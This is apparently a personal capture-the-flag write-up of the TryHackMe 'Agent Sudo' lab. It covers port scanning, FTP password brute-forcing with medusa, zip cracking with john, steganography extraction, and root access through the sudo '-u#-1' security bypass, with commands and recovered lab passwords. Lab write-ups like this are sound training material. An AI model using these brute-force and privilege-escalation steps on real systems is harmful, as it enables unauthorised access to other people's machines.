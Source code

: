 # Agent Sudo (THM)

- https://tryhackme.com/room/agentsudoctf
- March 2, 2023
- easy

---

## Enumeration

- Nmap initial

1. 21/tcp open ftp syn-ack vsftpd 3.0.3
2. 22/tcp open ssh syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3. 80/tcp open http syn-ack Apache httpd 2.4.29 ((Ubuntu))

- ftp -> anonymous login not allowed

- http
- home page

```
Use your own codename as user-agent to access the site.
From,
Agent R
```

- user-agent - for http header ??
- what is codename??
- from text, Agent R, try to brute force from A-Z with user-agent header
- find agent C,

```
C
======
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```

- then brute force ftp password with user christ

```sh
$ medusa -h $IP -u chris -P /usr/share/wordlists/rockyou.txt -M ftp -t 8
```

- ACCOUNT FOUND: [ftp] Host: 10.10.218.47 User: chris Password: crystal [SUCCESS]

- login with chris:crystal to ftp server
- get three files
- in text file

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- need to analyse pictures

```sh
$ binwalk cute-alien.jpg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01


~/vuln_labs/thm_easy_agentsudo/ftp ⌚ 21:13:53
$ ls
cute-alien.jpg  cutie.png  To_agentJ.txt

~/vuln_labs/thm_easy_agentsudo/ftp ⌚ 21:13:57
$ binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

- `binwalk -e cutie.png` -> get zip and txt file. Txt file is nothing. Extract the zip file.
- zip file is password protected
- find password of zip file

```sh
$ /opt/tools/john/run/zip2john 8702.zip > forjohn
$ john forjohn
# alien
$ 7zz x 8702.zip # with password -> alien, get To_agentR.txt
```

- To_agentR.txt

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

```sh
$ echo QXJlYTUx | base64 -d
# Area51
$ steghide extract -sf cute-alien.jpg
Enter passphrase: Area51
wrote extracted data to "message.txt".
```

- get message.txt

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

- enter ssh with james:hackerrules!

```sh
james@agent-sudo:~$ sudo -l
[sudo] password for james:
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

```sh
james@agent-sudo:/tmp$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

- It is vulnerable to sudo 1.8.27 - Security Bypass
- https://www.exploit-db.com/exploits/47502

```sh
james@agent-sudo:/tmp$ sudo -u#-1 /bin/bash
root@agent-sudo:/tmp# whoami
root
```

![](images/2023-03-02-21-59-46.png)

- for the sake of completeness, I ran the linpeas and copy the result as lp_out.ansi.

---
